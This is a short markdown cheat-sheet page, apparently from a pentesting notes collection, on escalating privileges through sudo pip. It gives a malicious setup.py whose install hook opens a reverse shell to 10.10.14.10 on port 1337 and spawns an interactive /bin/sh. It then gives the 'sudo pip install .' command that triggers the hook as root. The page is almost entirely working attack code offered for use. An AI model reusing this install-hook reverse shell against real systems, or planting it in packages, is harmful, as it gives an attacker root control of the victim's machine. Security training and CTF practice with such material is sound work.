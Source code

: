 ```yaml
---
title: "pip"
date: 2024-7-5
tags: ["pip", "pip3", "python", "sudo", "privesc"]
---
```


---
### SUDO

#### 1. Create a setup.py

<div>

```python
#!/usr/bin/env python3

from setuptools.command.install import install
from setuptools import setup
import os
import socket
import subprocess

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.14.10",1337)) # CHANGE HERE
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(
    cmdclass={
        "install": Exploit
    }
)
```

</div>

#### 2. Exploit

<div>

```bash
# Run
sudo pip install .
```

</div>

<br>